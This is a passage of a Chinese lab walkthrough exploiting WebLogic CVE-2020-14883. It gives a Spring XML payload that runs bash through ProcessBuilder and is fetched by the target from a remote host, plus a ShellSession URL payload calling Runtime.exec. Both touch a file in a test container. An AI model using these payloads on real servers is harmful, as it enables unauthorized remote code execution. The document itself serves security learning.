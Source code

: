 ![](http://img.wukaipeng.com/2023/11/07-070820-wnOWJt-image-20231107070820297.png)

目前权限不足，要想实现 RCE 需要借助另外一个漏洞。

### CVE-2020-14883

**利用方式一 ：**

利用类 `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext` 反序列化漏洞上传文件，这是一个通杀的漏洞，所有版本都适用：

新建一个 `rce.xml` 文件

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/wukaipeng]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后利用 DVWA 上传，得到公网可访问链接 `http://DVWA_IP_ADDERSS:PORT/hackable/uploads/rce.xml`

![](http://img.wukaipeng.com/2023/11/07-071901-1rD79B-image-20231107071900897.png)

访问：`http://YOUR_IP_ADDRESS/console/images/%252e%252e%252fconsole.portal?
_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.su
pport.FileSystemXmlApplicationContext("http://example.com/rce.xml")`

其中 `http://example.com/rce.xml` 替换成刚才上传的地址：

![](http://img.wukaipeng.com/2023/11/07-074256-mEVN6R-image-20231107074256077.png)

去到容器中，可以看到我们的文件也上传成功了：

![](http://img.wukaipeng.com/2023/11/07-074418-NlE1jX-image-20231107074418579.png)

---

**利用方式二：**

利用类 `com.tangosol.coherence.mvel2.sh.ShellSession` 实现，Weblogic 12.2.1 以上适用

```
http://YOUR_IP_ADDRESS:PORT/console/images/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/wukaipeng2');")
```
